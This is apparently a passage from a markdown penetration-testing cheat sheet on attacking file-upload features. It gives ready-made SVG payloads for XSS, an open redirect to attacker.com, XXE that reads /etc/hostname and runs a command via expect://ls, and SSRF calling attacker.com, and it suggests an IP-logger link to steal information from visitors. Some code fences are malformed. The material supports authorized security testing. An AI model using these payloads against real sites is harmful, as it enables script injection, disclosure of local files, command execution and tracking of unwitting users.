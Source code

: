 <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("HolyBugx XSS");
   </script>
</svg>
```

````

### OpenRedirection:

```markdown
Upload using .svg file

<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='https://attacker.com'"
xmlns="http://www.w3.org/2000/svg">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
</svg>
</code>
````

### XXE:

```markdown
1. Upload using .svg file
```

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="40" x="0" y="16">&xxe;</text>
</svg>
```

```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

2. Using excel file you can acheive not only XXE, but other vulnerability too.
   https://medium.com/@rezaduty/security-issues-in-import-export-functionality-5d8e4b4e9ed3

````

### SSRF:

```markdown
1. Abusing the "Upload from URL", if this image is going to be saved in some public site,
	 you could also indicate a URL from [IPlogger](https://iplogger.org/invisible/) and steal information of every visitor.

2. SSRF Through .svg file.

<?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="https://attacker.com/picture.jpg" /></svg>
````
